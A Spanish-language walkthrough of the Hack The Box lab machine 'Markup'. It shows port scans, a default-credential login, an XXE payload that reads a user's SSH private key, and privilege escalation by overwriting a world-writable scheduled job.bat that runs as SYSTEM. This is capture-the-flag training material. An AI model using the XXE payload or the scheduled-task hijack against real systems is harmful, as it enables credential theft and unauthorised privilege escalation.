








# Markup - Writeup HTB

**Dificultad:** Very Easy | **SO:** Windows | **XP:** 250

---

## Reconocimiento

### Escaneo de puertos


```bash
❯ nmap -p- --open --min-rate 1000 -Pn -n 10.129.95.192 -v -oG allportsScan
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

```bash
❯ nmap -p22,80,443 -sCV -Pn -n -vvv 10.129.95.192 -oN servicesScan

PORT    STATE SERVICE  REASON          VERSION
22/tcp  open  ssh      syn-ack ttl 127 OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJ6igORqDgM0+6P4dUx3DcDJyuzMMRkDabKsdcrizRtEKleaaYjmgCbwyhD+JqwIX2AZqoC0MLH0q37YJzp3aegjEW9Q0dUBQGSoRRe8wWmsHRFbxgaoGunpB5VK4p3KE2MPVJXUkTSW2Mdrq4yWb63HnNF4TSIPk/+U5e99Qlrgmn0IeJrn9jkRBjPjLq1HSL0zY4YTO5qnvUktZ8J0Y19YVkYfZoLXJeTtiUKEXJYIUog8oUq9M8+1rUHU/GTjdU5X+jNExqvWm15fXr42Of2hnKP8ZRjyynWZ9hPAQjmCHCxh0Mvn/fWCsJ2nri/3SOULiwEfG9XULbLX0tABz++ujmiRyOZoPDscazFzxqfofiJhRm4cxiYf1p2pfjITfWGpxOUxOYDawXT10fLjo7hjpDqy6pKuK3TGbBx5VVG9p1szrctN9XpnI2bmpTMix3ISqddFgTHJimyb5TrcWZ876igSAPx0GtVOZqAk4ae1xh/qutG/PONnVQWcwZQLU=
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPnBLEC67Ty1ccuPW0DPWevSQAIg39y1jbSVLmegQkZ3vCooq0wheIffYyBhRnAAJj6Fi1jpTxP7u6H8JAqyGjU=
|   256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID9o7yWjLL4g6Gu71UeLZB+kbmzW+cp0eiRtb21D1JZC
80/tcp  open  http     syn-ack ttl 127 Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaShopping
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
443/tcp open  ssl/http syn-ack ttl 127 Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
```

Tenemos tres puertos abiertos: SSH (22), HTTP (80) y HTTPS (443). El servidor web corre **Apache 2.4.41** con **PHP 7.2.28** sobre Windows. El certificado SSL está expirado desde 2019, señal de una configuración descuidada.

---

## Acceso inicial — XXE en formulario de pedidos

### Enumeración web

Al navegar a `https://10.129.95.192` encontramos un panel de login de la tienda **MegaShopping**.



Probando credenciales por defecto:

```
admin : password
```

Acceso concedido. Dentro del sitio, la sección `/services.php` expone un formulario de "Order in Bulk".



### Descubrimiento de usuario en el código fuente

Revisando el código fuente de `services.php` encontramos un comentario HTML revelador:

```html
<!-- Modified by Daniel : UI-Fix-9092-->
```



Esto nos da un nombre de usuario: **Daniel**. Lo anotamos para más adelante.

### Prueba de XXE — primer intento (Linux path)

El formulario envía los datos en XML. Al interceptar la petición con Burp Suite, comprobamos si el servidor procesa entidades XML externas (XXE). Un primer payload apuntando a `/etc/passwd` retorna un error, lo que confirma que el servidor es **Windows**:

```
DOMDocument::loadXML(): I/O warning: failed to load external entity "file:///etc/passwd"
```



### Explotación XXE — lectura de clave SSH privada

Dado que el servidor es Windows y ya conocemos el usuario `daniel`, ajustamos el payload para leer su clave SSH privada:

```xml
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///C:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>111</quantity><item>&test;</item><address>tsets</address></order>
```



La respuesta devuelve la clave privada RSA completa de Daniel. La copiamos a un archivo local `id_rsa` y ajustamos los permisos:

```bash
chmod 600 id_rsa
```

---

## Acceso SSH como Daniel

Con la clave privada en mano, nos conectamos:

```bash
❯ ssh daniel@10.129.95.192 -i id_rsa
```



```
daniel@MARKUP C:\Users\daniel> whoami
markup\daniel
```

Obtenemos acceso al sistema como el usuario **markup\daniel**.

---

## Escalada de privilegios — Scheduled Task / job.bat

### Enumeración de privilegios

Navegando por el sistema encontramos el directorio `C:\Log-Management` con un archivo de tarea programada:

```
daniel@MARKUP c:\Log-Management>dir
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of c:\Log-Management

03/12/2020  03:56 AM    <DIR>          .
03/12/2020  03:56 AM    <DIR>          ..
03/06/2020  02:42 AM               346 job.bat
               1 File(s)            346 bytes
               2 Dir(s)   7,352,483,840 bytes free

daniel@MARKUP c:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

El permiso `(F)` (**Full Control**) para `BUILTIN\Users` sobre `job.bat` significa que **cualquier usuario puede modificar el archivo**, incluido Daniel. El scheduler lo ejecuta con privilegios de SYSTEM.

### Inyección de comando en job.bat

Sobrescribimos `job.bat` para que copie el flag de root a un archivo accesible:

```
daniel@MARKUP c:\Log-Management>(echo type C:\Users\Administrator\Desktop\root.txt ^> c:\flag.txt) > c:\Log-Management\job.bat

daniel@MARKUP c:\Log-Management>dir
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of c:\Log-Management

03/12/2020  03:56 AM    <DIR>          .
03/12/2020  03:56 AM    <DIR>          ..
06/19/2026  01:16 AM                60 job.bat
               1 File(s)             60 bytes
               2 Dir(s)   7,415,386,112 bytes free
 
daniel@MARKUP c:\Log-Management>type job.bat
type C:\Users\Administrator\Desktop\root.txt > c:\flag.txt
```



### Obtención del flag

Esperamos a que el scheduler ejecute la tarea, y verificamos en `C:\`:

```
daniel@MARKUP c:\>dir
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of c:\

06/19/2026  01:16 AM                34 flag.txt
03/12/2020  03:56 AM    <DIR>          Log-Management
09/15/2018  12:12 AM    <DIR>          PerfLogs
07/28/2021  02:01 AM    <DIR>          Program Files
09/15/2018  12:21 AM    <DIR>          Program Files (x86)
07/28/2021  03:38 AM                 0 Recovery.txt
03/05/2020  05:40 AM    <DIR>          Users
07/28/2021  02:16 AM    <DIR>          Windows
03/05/2020  10:15 AM    <DIR>          xampp
               2 File(s)             34 bytes
               7 Dir(s)   7,410,716,672 bytes free
```



Flag de root obtenido.

---

## Resumen del ataque

|Fase|Técnica|Detalle|
|---|---|---|
|Reconocimiento|Nmap|Puertos 22, 80, 443 — Apache/PHP en Windows|
|Acceso inicial|Credenciales por defecto|`admin:password` en el portal web|
|Information gathering|Code review|Comentario HTML revela usuario `Daniel`|
|Explotación|XXE (XML External Entity)|Lectura de `C:/users/daniel/.ssh/id_rsa`|
|Acceso al sistema|SSH con clave privada|`ssh daniel@target -i id_rsa`|
|Escalada de privilegios|Misconfigured Scheduled Task|Full Control sobre `job.bat` ejecutado por SYSTEM|
|Post-explotación|Command injection en bat|Copia del root.txt a path accesible|
